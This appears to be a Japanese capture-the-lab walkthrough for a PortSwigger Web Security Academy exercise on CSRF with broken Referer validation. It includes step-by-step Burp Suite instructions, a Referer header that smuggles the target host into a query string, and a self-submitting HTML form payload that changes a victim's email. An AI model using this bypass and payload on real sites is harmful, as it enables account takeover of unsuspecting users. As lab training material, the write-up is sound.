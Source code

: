 # リファラー検証が壊れた CSRF

次のハッキングラボを実施します  
https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken  
このラボの電子メール変更機能は CSRF に対して脆弱です。クロスドメインリクエストを検出してブロックしようとしますが、検出メカニズムはバイパスされる可能性があります。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. メールアドレスの更新を行います
- 5. POST /my-account/change-email HTTP/2 リクエストを send to repeater します

* 6. リファラーを書き換えて送信すると失敗します

```
POST /my-account/change-email HTTP/2
Host: 0a9500ee03463eba84c47014008000bc.web-security-academy.net
・・・
Referer: abc
```

- 7. リファラーの元の url を残した状態で改変してリクエストを送信します

```
POST /my-account/change-email HTTP/2
Host: 0a9500ee03463eba84c47014008000bc.web-security-academy.net
Cookie: session=MWLNmyIB5PE4gmaRfpSGdHbweZBjH6oj
・・・
Referer: https://arbitrary-incorrect-domain.net?0a9500ee03463eba84c47014008000bc.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

email=test%40com

```

- 8. エクスプロイトサーバに移動します
- 9. 次の内容をボディに入力

```html
<body>
  <script>
    history.pushState("", "", "/?0a9500ee03463eba84c47014008000bc.web-security-academy.net");
  </script>
  <form method="POST" action="https://0a9500ee03463eba84c47014008000bc.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="tehhst@com" />
    <input type="hidden" name="csrf" value="N7nhxeOtRY8fCgExCDfDmM1qhfdT11j2" />
    <input type="submit" value="submit" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
```

- 10. Save ボタン押下後に deliver exploit to victim ボタン押下
